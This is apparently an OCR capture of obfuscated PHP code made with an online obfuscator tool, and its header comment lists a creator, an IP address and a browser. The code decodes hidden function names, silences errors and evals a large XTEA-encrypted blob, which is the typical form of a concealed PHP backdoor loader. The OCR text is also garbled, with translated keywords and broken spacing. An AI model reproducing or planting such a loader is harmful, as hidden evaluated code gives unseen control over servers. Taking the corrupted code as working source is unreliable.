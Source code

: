  &lt;? php / * ** Situs: http://www.tool.eddiekidiw.com/phpobfuscator-v-02.html Tanggal: 2019-04-10 Hari: Rabu Waktu: 01:41:33 Ipaddress: 202.80.217.223 Hostname: 202.80.217.223 Kota: Jakarta Negara: ID Wilayah: Jakarta Browser: Mozilla / 5.0 (Linux; Android 7.0; Mi-4c) AppleWebKit / 537.36 (KHTML, seperti Gecko) Chrome / 72.0.3626.105 Mobile Safari / 537.36 Deskripsi: pencipta adidoank ** * / $ ASOHHPVxxkwqDZNfYrgM = ZUGlriLgcPQCcKnSCoTO ( '088116101097'); $ XpYUmDvNCPNjbgdHxtgk = ZUGlriLgcPQCcKnSCoTO ( '116.114.105.109'); $ OxRVyNzihVCJiJSMdLGY = ZUGlriLgcPQCcKnSCoTO ( '101110099114121112116'); $ zWVrWgnGbrAQgJJexgum = baru $ ASOHHPVxxkwqDZNfYrgM (ZUGlriLgcPQCcKnSCoTO ( '053102056050053101053100099054049098056050050054102099056048099098053048053102048102057102100099')); error_reporting (0); @eval ($ XpYUmDvNCPNjbgdHxtgk ($ zWVrWgnGbrAQgJJexgum -> $ OxRVyNzihVCJiJSMdLGY ('XKznXQAJ5lMC0oLMwONqg + lv1Cbe0M8CcvxtZMKSbzCJlrDkmijBWGZOvSPCa9THhPSFoFGCqTbKECJaHwUHratwRZoUXXq / aYw7Rp3tcocbA2KO4dwSyjhMdP93JiklhWOWYhIGbtr4xWETYbCO9FWW9C + j7FgbEPVJQ8fc88tBbTsVhh3xImIilt0ftbiRGvPMiiy7i4VWzE8eOjH / AsiOUG9NhfaOSQMr15mkYC4LGNGx2T5EHJguhDZVNXIInw1uQCglK5WIq3sGGgwOs7BXSZj6mOBNt / r7DTuAlIimNn4anP8dCI2uB8x90jzDjYx0D0skKf0Y7qz9NQ0wtxtaEzuYFJr9 / GQNA9F1ySZrN0NK / LtzdVQbccwcjCpaRjIvfxbL9v7AEqXZh2oR0gUPJe7OAlE8r4pw + ErY0G3 / p9GWApW / fmHRkouTks1pThxBTp + TGd53xMpfug5L6ShepyVz / R22K + wgZQdP4lOEaXSYjvGtu030gC6xCn3P8Teo1bipgrj3RO8s0XAN0pHfRMgEBE + qT8RdPi3hUoBAOrXwfFEKH2JyRWnTk5R9BZeB5nVqGJgqnheaqBij + ZrEOYZyiYHo + KoXFgsfG1InwMDKtxhWh8CxRJMfcFx / iEhAuW280XCF43K4D5b4NtBvyHFxyHXDwPUubwxilgvp0O1h7DMr3mUhQtmnwuUdsBTlHqzJ2r8dX9bmGngVg00FtoG9Linkv57na0WDDzrAOHCV95UmsczmxkLx31qd89WLJapnreDuoxip + j5Ixnh2eb7erYM88ocVy / HKS + TbY1 / A2j7U + o3ncSq / bBIgs7wLPKdGqIq15SGBcWMMlxSxTmfSpAcB1 + dQ + E39ehVLSxSjtK7SG6CrQcTzj1Y77KColRpoJJvlUcUVdxtFyVfu6SqnEjjCLtkjVFPEk2bIgYxFyOUmUeUykBbvWwtte4 + n07 + T7cpww7lQO + 5NF / 3wG16G8e4DLEP + 9TUxoCAxyfrtTBwkG + e9gXuE0XRtpW6VDVSBomAmp9XPeAmxaOax9Sr4jg3fc41y7tw6DdF71M7oRWLbCKBR9AIvT / dyq60F6EEnSpyng3sD2uxAxJWhkLPxzpSovGAwMk4fwMf0jA4122qe + CEnYDs2lhtOOduobDBZGGxyz6JOmLZOc4QhNOFhC1TZkq / ZmMz3AgQTkJ86P5JZV22CgWBAt / B8C5xYNHWX28r + bu + nqXBjadECEtQ7BGOgne5b + HsjRe0UsADMLeu4eH + 2d3vQaw3JEk6 + JLliu23IgzzmnZFRcqD5SZ + V10KIhVDLrVQIoXBW94 + 0734l3PZHopLtGA0H9TOhk3UQ0KAc5VoJh + jGUUsIQO9tLMkSBORVAkiDhVa4qB + 4jndtpsgV3F4OWkClR01w4gia / JKOnEfcOFJclgFAxqbJZ9erskxK0IWHG05FibT / HkvqoPdVFuj + r47ckJARJi8Z8Pi8d / vyIpqGc1NxP / kigpxCVxNhvT0xjASq1WsAXbRGVqwRnleF1C3ZF0M7f1b9n7k34c / Rsh5 / i + SnhOORETyFsbfDGmiHpu + dWs1Xg9xcuB2L6uMRCgZTaFm3TA + 0jKOEtyDVk6hmttoZy + xrmZ3D9bce29aXu3o1wQmHtw / mKB3TvM1HHVkFqLZfLKHQJK7CHj / Ggk6 + RL365D3khPVp9zLEqGMUhixkdO8ahGYiOwuJCycvJr + HDissptR7g8SH6TXvd / 8ryVK8m2fvuwnRHKptikJcOe2lAB2pgBf3K3cE3JK6FQ1IO + 15WiT0Hfe49zn3kmWZsBU + VEezthjx4iiJidKWgn + etsKq12qxjCfZj / + 2VDkMtJXxBGoA5 // bcFWoWARfQRIRj2bWVtkkqXougiMvjhcKi37UGJVgwDGk6kdXPkL / yvdbalYi3Tw397e6vvKMrQ / pQ0forvSwR9zXkSyfhAZYHRRl7uwBLdRPIpxEV1o8awRK / XcAo / F / po1DxQtW13vN8tQWl2c / + OnkP1jwIgJfo6nLfeQylt1wj0UCLXgD12EgAY + 4MYYz6mVILL2 + xQEpFbyzqP3iqoXPQ2GPARYZAaDyz0VumcwWN0g1Q0x2jwJbfMibI52in3vtTFdtSkwnmgDU1lpxmkMPOq4Xnsp0BLpOVs4HnQ2qvUDaOIkqYCPAIZO8hb8ntGMcaPCQCMPqlVqZNXnUBzRJtD43qUd0PlLXDz / yDNoGCrkrAdEMfwJ8VwmH8doEUq3op / o6dSuQAQZ4TzGHwgFp / 4Gi6EbRLcWWIABtp / XWEjfKK6KNdaYoDGwfpQZdSn8PM9l1aw6OKEG0sxT8wsbc28yBXDDj1egMVq1kNt0qn2962VJGrQxs3a8ovgkzcNmpN0knkVNcc6zCH7JrvzDSFY8mTs62VkG8WrgWpXJxjDCI35rq3nkvQE5zCpF8tl32159T1C6RQFianpaaX6htfpWXSI8ha + bhCRLvdKqE / 7nR4qwGJg1WHh6KPqI / COH7PM + LhNi4jH1z9EmuGB0pt9tPk2XSG7C4sRhVFm57XblZgfOvy1J5NIl / 4KxKr7uEmUuy9Ychdz27VTIjbWStb2gNT / YdliFH / ZOR1khRNVzROeg + hMpOAeJkiWtRoBG3d9DxKFewU5brwXL6JTSx54hqrRzY1l4Cg / YsNGvp56soWfSw9LasvgNDC3STHOLkN45YWXDIYgSyIO + IVm48IhD9vWxU3fY6qm / 6Py2kBC / dwP8G / NZ58h + / Db + 7KpFlK8J8uvf01oI2L ++ 0HFQK4em3AQExl5efe8Jw1 / j5rfTvtPNqGUVjEhXsjlA / YGrcOspLBsfABlZSFhUiRzz / oPHCt6S9pMenUvXC3YrCqfcnRnOEBTfT8IXZifGg6QSzCiHfuiJJNfcr / V68ZorIxOeRwcLg / GYELS45su2mCPVY + KuFf85mTYZXCGV / yo7za6mOHGS12IUv3nnbvc2Qp0rtZaV8Ce8lVSqCRgO0 + QEzN34ofmuPVM08z3 / md5KzcAGkyVFSVuRpLmyrPseMZzBjef2EiTDS2kAigov2QVzZOEHg9dvNBuxJf2xdAEnXxVQPn / E83K / Hh3Kn6I7FnDdESE5hc5aknj8z9T9yEntPRH9rsnsXWz7ng2dFv5lIpNfA / 8wHYi05miwcIsHGBs / phZC2A6VXcmpcsc6TweQrD7T06zS7d6dGYDLwFRNohdyLy1qTdyplOEbMuBn3gsAUqKM51NGpy6 + CZnRGnXnU9UW8EtPHiaAUaOFEgcKr06Ac4QaLre3bDpa + eX22LKp0p26t3qWzU52zO4b2jt660IET8 / rlpAFMv + GvP2ZKCtJvCxoU9JJJKt + P4PwjDZ3MGfqKD8T + dTW4qTt + HOyIcazeuPZBpBSVUWLmtTWIiiunzg5aUH6 / u7LsXs + g7Gi + U8SYIKN355fI / EWMH + ThN2VhxMyFJTj470OZOwR11LkKXTWFbVXrCNQhQAoOPnls8QDC1L + a5GqoDhszPZeZnu / 5sbPjOZip0nfGzfaRAukQsRZJrzXr + AozzwYk9F2XWt9c9Mh1l6TZ4DdvVZQ / MVTOuKla9 / VJzje + nL6gDzGXHV + KNVcPddZv1nUXEMFega5YN430T30Ethxr3t + vVoc7xFlSPtmHZY0r9 + pDs3Vh6KCsMoN8a1svAFfX5ZdAMZBKhJ4rDfU / ZemzbFJ + 9M1DR23xg6fVVsTZGG03eU5LAK8Ll5vEbEeQ73u7Q8eWQ8wnsljHa5Jydczk / 1ZiFCeCSoA / lYXKBy9RP5Q3c23vFM46vKbE0W8yiPtbrmUwziI0VA1z2sw7HY7V4MkwIrxYFyg7dM5hc0ufCXCG0Q540MwwQWVr3sKPwx6wxwpXAQEJo8BemKog4vbAwRqNVJEl / SUKqvPH3FfBlVPR + 0G6HtD1RLVSmkeIjPxOCOoWNXvzAzxWAckD8ny3u8gIwvznzj1xgeaZ6nURCf + NQMts5izu5R3lzjCcE1YAx / 9F6 / qr9EjVsUvJnsi99GBIlO0Jpy + 5y8 + YiiF8gaMEk4kRGnwt19E7xPdgI7vOHyYUXBwT7 / bCFA2N7aFD47he4Y8XtNOd4zyhtKARGmKR7wlxUV4m1sDfw8BTrh + SOJ + V53MfJvyH7ffSYxcfIUxgvVIskaIn1NJPa18pw6HvCEWl + x6CUB5FHH7oF3s / CnZbc2COworWIcthSaHD3Em8Af0snM3yFcKD8mcxdjmjdmcdjdmdjdmjdmjdmjdjdmg+ Tubr + 9 + BAnl / 5bqhldD49BA + wrT2ox5v + ZcstitweOt3CoUaKtTyMhWEE + p8IINqdAQlXS0i1zXI0J3WrIfIswNkd0Oaq3625 + AczcOFJ2amP42RRGdi5DkjYsN / Wws42881HAos0aTKjEQVGEL0 + VADGdln8zi6Sp3km2JxleLTC / BlTlB / DkWcK0YhoZZKv4GDjP + iDL0LT0Q0GOhKTCiCODTTg0nF10VHQqtJrf42rxe6xp9Algn74Mdo1MXJUxlDVYOZb8YH4II6XW / sb5yc3yPqS3ifekh57owszlsYEI2WuggmK / FwrrgKMrww6FP4cDPNTGUFZdMvWaTCJ0dYVcphGU6xsAz50bHOGLBm + Dvfc6fqLJFMN9 // 2QcQo5eBxfvxPhs9ZJbXFwL0rBVatinztzKcjzlsZ / IPTk5YtzaLeJXCZLJ / ql5ZTE64CaG9mHpq ++